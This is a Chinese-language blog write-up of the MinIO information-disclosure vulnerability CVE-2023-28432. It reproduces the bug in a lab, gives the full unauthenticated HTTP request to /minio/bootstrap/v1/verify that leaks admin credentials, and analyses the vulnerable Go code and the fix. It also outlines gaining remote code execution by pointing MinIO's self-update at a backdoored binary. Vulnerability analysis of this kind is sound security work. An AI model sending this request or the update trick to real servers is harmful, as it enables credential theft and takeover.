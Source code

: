 ```yaml
---
title: MinIO信息泄漏漏洞分析
date: 2023-04-02 11:36:00
updated: 2023-04-02 18:15:00
tags: [security]
description: 对CVE-2023-28432漏洞的复现、分析与利用
category: Security
---
```




> 参考文章：
>
> https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
>
> https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
>
> 漏洞比较新，很多师傅也写了博客记录了自己的尝试，很多地方可能写的不是特别明确，这里也结合了一些自己的思考去尝试分析。

## 漏洞复现

> 可以用vulhub上配好的docker文件来起漏洞环境

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20230401222111087](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222111087.png)

得到账号密码`minioadmin/minioadmin-vulhub`

![image-20230401222515539](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222515539.png)

可以成功登陆后台

MinIO后台如何RCE我们后面再说，先看一看漏洞的成因

## 漏洞分析

有漏洞版本的代码

![image-20230401230547112](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230547112.png)

在集群模式下会注册`/minio/bootstrap/v1/verify`这个路由

```go
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```

而根据这部分代码，由于此路由没有鉴权，请求接口就会返回环境变量。MinIO启动时会从环境变量中读取预设的管理员账号密码，所以环境变量中存在管理员账号。如果没有预设，那么就是默认的账号密码。

因此从攻击角度来说，这个信息泄漏会导致无论是否预设，都能拿到账号密码登陆。

![image-20230401230255122](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230255122.png)

再看一下修复方案，也是把账号密码等从接口中移除回显，同时增加了对于接口的鉴权部分。

## 漏洞利用

### 通过自更新完成RCE

> 参考：
>
> https://y4er.com/posts/minio-cve-2023-28432/
>
> https://github.com/AbelChe/evil_minio

MinIO是Go写的项目，语言本身缺乏动态特性，不过有意思的是后台具备自更新功能，可以利用这个功能运行恶意二进制文件完成RCE。

在`/minio/admin/v3/update?updateURL={updateURL}`这个路由的功能中，可以从远程加载二进制文件，下载并更新。

具体可以利用minio的cli客户端工具，进行更新

![image-20230402110448794](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230402110448794.png)

但是如果是一个伪造好的恶意二进制文件，运行后minio的服务就宕机了，这里可以参考`https://github.com/AbelChe/evil_minio`项目，思路是魔改minio，添加一个后门路由来完成不破坏原有服务，完成RCE的工作。